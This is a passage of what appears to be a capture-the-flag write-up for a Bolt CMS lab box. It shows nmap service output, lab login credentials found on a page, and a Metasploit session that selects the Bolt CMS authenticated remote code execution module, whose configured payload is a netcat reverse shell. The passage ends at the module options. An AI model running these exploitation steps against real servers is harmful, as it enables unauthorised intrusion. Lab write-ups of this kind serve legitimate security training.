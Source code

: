 ```bash
SF:\r\nexpires:\x20-1\r\nX-Debug-Token:\x20ee83a3\r\n\r\n<!doctype\x20html
SF:>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20\x20\x20\
SF:x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0<meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial
SF:-scale=1\.0\">\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20<title>Bolt\x20\|\x20A\x20hero\x20is\x20unleashed</title>\n\x2
SF:0\x20\x20\x20\x20\x20\x20\x20<link\x20href=\"https://fonts\.googleapis\
SF:.com/css\?family=Bitter\|Roboto:400,400i,700\"\x20rel=\"stylesheet\">\n
SF:\x20\x20\x20\x20\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/
SF:theme/base-2018/css/bulma\.css\?8ca0842ebb\">\n\x20\x20\x20\x20\x20\x20
SF:\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/theme/base-2018/css/them
SF:e\.css\?6cb66bfe9f\">\n\x20\x20\x20\x20\t<meta\x20name=\"generator\"\x2
SF:0content=\"Bolt\">\n\x20\x20\x20\x20</head>\n\x20\x20\x20\x20<body>\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20<a\x20href=\"#main-content\"\x20class=\"v
SF:is");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.44 seconds
```

>>There is a webpage which gives us the useranme and password.
>>USERNAME : bolt
>>PASSWORD : boltadmin123
>>URL : http://10.10.90.9:8000/

>>There is a (/bolt/login) login page but gobuster didn't catch up after logging with given creds the version of the bolt is displayed at the last of the webpage.  
>>URL : http://10.10.90.9:8000/bolt/dashboard
>>With that search with that version for exploits in exploit db.The previous version of that has authenticated rce vulnerability.
>>Using metasploit to get the shell. 

## GETTING A SHELL :

```bash
msf6 > search bolt cms 

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/webapp/bolt_authenticated_rce  2020-05-07       excellent  Yes    Bolt CMS 3.7.0 - Authenticated Remote Code Execution
   1  exploit/multi/http/bolt_file_upload         2015-08-17       excellent  Yes    CMS Bolt File Upload Vulnerability


Interact with a module by name or index. For example info 1, use 1 or use exploit/multi/http/bolt_file_upload

msf6 > use exploit/unix/webapp/bolt_authenticated_rce
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(unix/webapp/bolt_authenticated_rce) > options

Module options (exploit/unix/webapp/bolt_authenticated_rce):

   Name                 Current Setting        Required  Description
   ----                 ---------------        --------  -----------
   FILE_TRAVERSAL_PATH  ../../../public/files  yes       Traversal path from "/files" on the web server to "/root" on the
                                                          server
   PASSWORD                                    yes       Password to authenticate with
```